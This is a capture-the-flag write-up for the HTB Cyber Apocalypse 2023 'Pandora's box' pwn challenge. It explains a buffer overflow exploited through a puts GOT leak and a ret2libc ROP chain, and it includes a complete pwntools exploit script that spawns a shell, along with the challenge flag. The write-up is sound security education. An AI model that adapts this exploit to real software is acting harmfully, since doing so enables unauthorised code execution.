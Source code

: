 # Pandora's box - HTB Cyber Apocalypse 2023
> Writeup Author: [Mymaqn](https://github.com/Mymaqn)
>
> [`pwn_pandoras_box.zip`](pwn_pandoras_box.zip)

## Description
You stumbled upon one of Pandora's mythical boxes. Would you be curious enough to open it and see what's inside, or would you opt to give it to your team for analysis?

## Solution
There's a buffer overflow inside the `Insert location of the library:` prompt, which allows us to perform ROP.

Checksec:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'./glibc/'
```

file:
```
./pb: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=d0165634ba8886a0cdf61584d8c941d30ff3820e, for GNU/Linux 3.2.0, not stripped
```

There is no PIE or canary on the binary, so we just have straight up ROP.

Since there is no win function in this binary, we will have to leak libc.

This can be done by using puts to leak an address in the Global Offset Table, then returning to main.

Any address in the GOT can be used. But in this case I opted to use the puts GOT also.

```
I use the puts to the leak the puts :)
```

The exploitation will be divided into two stages.

1. Leak the puts GOT
2. Overflow and ret2libc

To leak the puts got, we first pop the address of the puts GOT into rdi. Then jump to puts's plt to call puts. Puts will then dereference our address and print the contents. We can then return to box() afterwards.

After we have leaked libc, we have all the options in the world. So spawning a shell with system seem like a good candidate.

Exploit:
```py
from pwn import *

io = remote("165.232.108.236",30641)

#Function to get to the overflow
def get_to_overflow():
    io.recvuntil(b'>>')

    io.sendline(b'2')

    io.recvuntil(b'Insert location of the library:')


get_to_overflow()

padding = b'A'*cyclic_find(b'oaaa')

#Gadgets needed for leaking the puts GOT
poprdi = p64(0x000000000040142b)
putsgot = p64(0x403fa0)
putsplt = p64(0x00401030)
box = p64(0x004012c2)

#Leak puts GOT
payload = [
    padding,
    poprdi,
    putsgot,
    putsplt,
    box
]
payload = b''.join(payload)
io.sendline(payload)

#Receive puts leak
io.recvuntil(b'We will deliver the mythical box to the Library for analysis, thank you!\n\n')
puts_leak = u64(io.recvline()[:-1].ljust(8,b'\x00'))

#Calculate base of LIBC
libc_base = puts_leak - 0x80ed0
log.info(f"LIBC BASE: {libc_base:#x}")

#Calculate pointers we need
system = p64(0x50d60 + libc_base)
binsh = p64(0x001d8698 + libc_base)
ret = p64(0x0000000000401016)

get_to_overflow()

#Spawn shell payload
payload = [
    padding,
    ret, #For alignment
    poprdi,
    binsh,
    system
]
payload = b''.join(payload)
io.sendline(payload)


io.interactive()
```

## Flag
`HTB{r3turn_2_P4nd0r4?!}`